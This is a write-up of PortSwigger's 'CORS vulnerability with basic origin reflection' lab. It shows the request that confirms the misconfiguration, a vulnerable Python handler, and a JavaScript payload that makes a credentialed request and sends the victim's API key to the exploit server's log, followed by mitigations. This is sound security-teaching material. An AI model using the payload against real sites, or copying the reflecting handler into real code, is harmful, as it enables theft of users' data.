


# Lab 01: CORS vulnerability with basic origin reflection

> **Topic**: CORS Cross Origin Request Sharing
> **Lab Number**: 01
> **Platform**: PortSwigger Web Security Academy

## Category
CORS — Basic Origin Reflection with Credentials

## Vulnerability Summary
The application's CORS policy is insecurely configured to trust any origin. It takes the value provided in the `Origin` HTTP request header and reflects it back in the `Access-Control-Allow-Origin` response header. Furthermore, it sets `Access-Control-Allow-Credentials: true`, allowing cross-origin requests to include cookies and other credentials. This combination allows an attacker-controlled website to make authenticated requests to the application and read the responses, leading to sensitive data exposure such as the user's API key.

## Attack Methodology

### Step 1: Discovery
While browsing the application, I identified an endpoint `/accountDetails` that returns sensitive user information in JSON format, including the username, email, and API key.

### Step 2: Verification
I intercepted the request to `/accountDetails` using Burp Suite and sent it to Repeater. To test for origin reflection, I added a custom header `Origin: https://example.com` to the request:

```http
GET /accountDetails HTTP/2
Host: 0a2600a904593028808a0d1600bc00b5.web-security-academy.net
Origin: https://example.com
...
```

The server responded with:

```http
HTTP/2 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
...
```

This confirms that the server reflects any origin provided in the request and explicitly allows credentialed access, which is a critical misconfiguration.

### Step 3: Exploitation
I crafted a JavaScript payload to be hosted on the exploit server. This script makes an authenticated `GET` request to the `/accountDetails` endpoint and sends the resulting data (containing the API key) to the exploit server's log.

**Payload:**
```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0a2600a904593028808a0d1600bc00b5.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key=' + this.responseText;
    };
</script>
```

After delivering the exploit to the victim, I checked the exploit server's access log to retrieve the exfiltrated API key from the request parameters.


*Burp Repeater showing the reflected Origin header and Access-Control-Allow-Credentials set to true.*


*Detailed view of the reflected headers in the HTTP response.*


*Lab successfully solved after exfiltrating the victim's API key.*

## Technical Root Cause
The server-side logic for handling CORS requests is flawed. Instead of validating the `Origin` header against an allowlist, it blindly trusts the input:

```python
# Vulnerable — reflects the Origin header directly
def handle_request(request):
    origin = request.headers.get('Origin')
    response = HttpResponse()
    if origin:
        response['Access-Control-Allow-Origin'] = origin
        response['Access-Control-Allow-Credentials'] = 'true'
    return response
```

### Why This Works
By reflecting the `Origin` header and setting `Access-Control-Allow-Credentials` to `true`, the application tells the browser that it's safe to share the response with the requesting site, even if that site is malicious. Since the browser includes the user's session cookies in the cross-origin request (due to `withCredentials = true`), the request is authenticated, allowing the malicious script to read sensitive data.

## Impact
- **Sensitive Data Theft**: Attackers can steal private user data, including API keys, PII, and CSRF tokens.
- **Account Compromise**: Stolen tokens or data can be used to further compromise the user's account or perform actions on their behalf.
- **Privacy Violation**: Exposure of user emails and internal account details.

## Proof of Concept
1. Identify a sensitive endpoint (e.g., `/accountDetails`).
2. Verify origin reflection and `Access-Control-Allow-Credentials: true` using Burp Repeater.
3. Host a malicious script that fetches the sensitive endpoint with `withCredentials = true`.
4. Capture the exfiltrated data on a server you control.

## Key Takeaways
1. **Never reflect the Origin header without validation**: Always check against a strict allowlist of trusted domains.
2. **Be cautious with credentials**: Only allow credentialed CORS requests if absolutely necessary, and never in combination with a wildcard or reflected origin.
3. **CORS is not a security feature**: It is a mechanism to *relax* the Same-Origin Policy. Misconfiguring it effectively removes one of the browser's most important security boundaries.

## Mitigation
1. **Use an Allowlist**: Maintain a list of authorized origins and only reflect them if they match exactly.
2. **Avoid Reflecting Origin**: If possible, use a static `Access-Control-Allow-Origin` header for a single trusted domain.
3. **Restrict Credentials**: Set `Access-Control-Allow-Credentials` to `false` unless cross-origin authenticated access is a core requirement.

## References
- [PortSwigger CORS Lab - Basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection)
- [PortSwigger CORS — What is CORS?](https://portswigger.net/web-security/cors)
- [OWASP CORS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Origin_Resource_Sharing_Prevention_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Exploit Server (PortSwigger)

---

*Lab completed on: 2026-05-16*
*Writeup by vibhxr*
